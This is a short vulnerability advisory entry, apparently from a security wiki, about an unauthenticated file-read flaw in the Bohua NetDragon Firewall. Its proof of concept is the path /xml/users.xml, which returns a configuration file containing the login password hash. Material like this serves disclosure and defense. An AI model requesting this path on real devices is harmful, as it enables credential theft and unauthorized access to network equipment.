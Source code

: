 # Bohua NetDragon Firewall users.xml Unauthorized access

## Vulnerability Description

Bohua NetDragon Firewall users.xml file can be read by any user, including the logged-in account password

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Bohua NetDragon Firewall</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628670749851-c85b5406-15f0-498c-9edd-80b1eb2ac426.png)

Verify POC, read configuration file to obtain password Md5

```php
/xml/users.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628670712797-5caf4c4d-716b-4aa4-9468-d1ff8c433b66.png)


